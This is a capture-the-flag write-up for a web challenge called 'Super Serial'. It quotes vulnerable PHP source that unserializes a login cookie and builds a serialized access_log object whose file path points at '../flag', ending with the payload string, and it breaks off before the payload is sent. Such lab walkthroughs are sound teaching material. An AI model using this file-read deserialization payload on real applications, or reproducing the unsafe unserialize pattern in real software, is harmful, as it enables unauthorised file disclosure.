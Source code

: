 # PHP Deserialization Injection
* Name: Super Serial
* Category: Web 
* Technique: `PHP Deserialization Injection`
* Hint: `The flag is at ../flag`
## Solution 
* Overview the challenge have a login form 
![image](https://user-images.githubusercontent.com/79050415/152352808-604d5a55-b4bd-453d-bc81-b58ade06ee9d.png)
* Initial reconnaissance
* The first i look at login form i think its `sql injection` but i used some payloads its response error, but name of the challenges `Super Serial` i gessing its `Deserialization`
* All challenges i solved always have attachment source code but this challenge must fuzzing found source code, i used `dirsearch` for fuzzing 
![image](https://user-images.githubusercontent.com/79050415/152356327-9c58ddd6-e844-4864-bf66-68569fd4f974.png)
* I found other pages 
```c
index.php
cookie.php
authentication.php
index.php
cookie.php
authentication.php
```
* I cant access this page i must add `s` because i access `robots.txt` its hint for me
![image](https://user-images.githubusercontent.com/79050415/152357593-2e3414d5-bff9-47a7-847a-8728722ee51e.png)
* After i access other pages i found a source code 
## Source Code Analysis
* `index.phps`
```c
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
?>
```
* `user` and `pass` used `POST` method 
* username and password assign variable `$perm_res` for authenticate
* if `$perm_res->is_guest()` and `$perm_res->is_admin()` are true `cookie` will create header `Location` set value equal `authentication.php` then its direct from login page to `welcome` page 
* `setcookie` `login` its created by serialize `$perm_res` variable then ` base64` and `urlencode` 
* `cookie.phps`
```c
<?php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
 ```
 * The function `is_admin()` and ` is_guest()` are same check attribute username and password of `permission` class by query to database `users.db` because 2 function used `prepared statements` and `parameterized queries` so exploit sql injection is impossiable 
 * `IF` block code check cookie of `login` if serialize true its response flag and false its response message `Deserialization error`
 * `authentication.phps`
 ```c
 <?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```
* Class `access_log` have 2 magic methods `__construct` and `__toString`. Method `__toString` response `read_log()`, `read_log()` will response content of file and transmisson ` constructor` of `access_log` class via ` file_get_contents` + Magic method wil execute when class create, therefore i created an object `access_log` 
```c
<?php

class access_log {
	public $log_file;
}

$object = new access_log;

$object->log_file = "../flag";

$serializedObject = serialize($object);

echo $serializedObject;

?>
```
* The script when i run 
![image](https://user-images.githubusercontent.com/79050415/152373825-40d495e7-8d98-40c5-a1a0-1a4ce1041f1d.png)
* `O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}`
* 


